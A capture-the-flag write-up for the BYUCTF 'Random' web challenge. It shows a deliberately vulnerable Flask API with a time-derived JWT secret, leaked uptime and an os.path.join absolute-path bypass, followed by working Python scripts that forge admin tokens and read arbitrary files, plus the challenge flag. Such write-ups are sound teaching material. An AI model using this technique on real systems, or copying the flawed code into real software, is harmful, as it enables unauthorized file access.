

# Web/Random

## Challenge Description

>I've only had the time to make the API, but it should be working properly. Please make sure it's secure. If you can read any file you want, I'll make sure to reward you!

Files: [server.zip](./assets/random.zip)

## Challenge Overview

When we visit the page, a webpage saying `Forbidden` is returned meaning we cannnot access this webpage right now.



So let's start by analyzing the files we are given. After unzipping, we can see that there is a file called `server.py`. This must be the file the conatains the code for the server.

```py
# imports
from flask import Flask, abort, request, make_response, Response
import hashlib, time, jwt, os


# initialize flask
app = Flask(__name__)
time_started = round(time.time())
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()


# check authorization before request handling
@app.before_request
def check_auth():
    # ensure user is an administrator
    session = request.cookies.get('session', None)

    if session is None:
        abort(403)

    try:
        payload = jwt.decode(session, APP_SECRET, algorithms=['HS256'])
        if payload['userid'] != 0:
            abort(401)
    except:
        abort(Response(f'<h1>NOT AUTHORIZED</h1><br><br><br><br><br> This system has been up for {round(time.time()-time_started)} seconds fyi :wink:', status=403))


# list files
@app.route('/api/files', methods=['GET'])
def list_files():
    return os.listdir('files/')


# get a file
@app.route('/api/file', methods=['GET'])
def get_file():
    filename = request.args.get('filename', None)

    if filename is None:
        abort(Response('No filename provided', status=400))

    # prevent directory traversal
    while '../' in filename:
        print(filename)
        filename = filename.replace('../', '')
    print(filename)

    # get file contents
    return open(os.path.join('files/', filename),'rb').read()


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337, threaded=True)
```

Analyzing the file, we see that before every request, a `check_auth()` function is run. This function retrieves the `session` cookie which is a `jwt` token. It then tries to decode the the token using an `APP_SECRET` and if the `userid` in the decoded token is not `0` then we cannot view the webpage. 

But there is another part in this function. If an error occurs while decoding the jwt, then it returns an error message along with `rount(time.time() - time_started)` which basically tells how long the server has been up.

The `APP_SECRET` is simply the rounded off value of the time when the server was started. So we could use the information returned in the error message to figure out the `APP_SECRET`.

Let's analyze the python file further now.

There are two more functions in there

* `list_files()`
    * Simply lists the files in the `files/` directory

* `get_file()`
    * Gets the `filename` parameter
    * Checks if it contains `../` in the `filename`, thus preventing us from viewing any files in parent directories
    * Returns the contents of the `filename` but notice that it uses the `os.path.join()` function to make the path to the file

Now, since our `flag.txt` is in the parent directory (you can see this in the `Dockerfile`), we have to figure out some way to pass that into the `get_file()` function but we cannot use `../`. Looking around for a bit, I found that we can do this by exploit how `os.path.join()` function works. If it encounters any of the inputs starting with `/` then it ignore any path before it.

So `os.path.join('files/', '/etc/passwd')` would actually return `/etc/passwd`. Checking the `Dockerfile` we see the the name of the directory where the flag is stored is randomized so we need to somehow find the entire path. 

## Exploit

Now let's get started on the exploit. So first we need to figure out the `APP_SECRET`.

```py
import requests, jwt
import hashlib, time

base_url = 'https://random.chal.cyberjousting.com/'
# base_url = 'http://127.0.0.1:1337/'

def see_files(secret_time):
    url = base_url + 'api/files'

    secret = hashlib.sha256(str(secret_time).encode()).hexdigest()
    algorithm = "HS256"
    payload = {"userid": 0}

    token = jwt.encode(payload, secret, algorithm)
    cookie={"session": token}
    r = requests.get(url, cookies=cookie)
    return r

print("current time:", time.time())
print(see_files(1337).text)
```
So using this above code, we first send a token with a random `APP_SECRET` and then we can see the `current time` and then the server will send us how long it has been up. So we can use this information to calculate the `APP_SECRET` as `APP_SECRET = CURRENT_TIME - UP_TIME`. 

It might not be exact after finding this value, I simply did a bruteforce in the range of `(APP_SECRET - 100, APP_SECRET + 100)` and using that, I found the `APP_SECRET = 1714441814`. 

So, now we have the first part done. Next, let's figure out how to read the file.

Now, in order to read the `flag` we must figure out the exact path of the flag. So, since we now have the ability to read files on the system, we can read the `/proc/{pid}/environ` to view the environment variables.

Well, since the challenge server is down right now, so I can't show you the environment variables but after viewing the file `/proc/1/environ`, I noticed that the `HOME` variable contained the path `/40c456eca822d997a6c2543171225c99`. Thus, we can now simply read the flag by going to `/40c456eca822d997a6c2543171225c99/flag.txt`.

```py
import requests, jwt
import hashlib, time

# base_url = 'https://random.chal.cyberjousting.com/'
base_url = 'http://127.0.0.1:1337/'

def see_files(secret_time):
    url = base_url + 'api/files'

    secret = hashlib.sha256(str(secret_time).encode()).hexdigest()
    algorithm = "HS256"
    payload = {"userid": 0}

    token = jwt.encode(payload, secret, algorithm)
    cookie={"session": token}
    r = requests.get(url, cookies=cookie)
    return r

def get_file(filename, secret_time):
    url = base_url + 'api/file?filename=' + filename

    secret = hashlib.sha256(str(secret_time).encode()).hexdigest()
    algorithm = "HS256"
    payload = {"userid": 0}

    token = jwt.encode(payload, secret, algorithm)
    cookie={"session": token}
    r = requests.get(url, cookies=cookie)
    return r
    
secret = 1714441814
# print(see_files(secret).text)
contents=f'/40c456eca822d997a6c2543171225c99/flag.txt'

response = get_file(contents, secret).text
print(response)
```

This gives us our flag `byuctf{expl01t_chains_involve_multiple_exploits_in_a_row}`.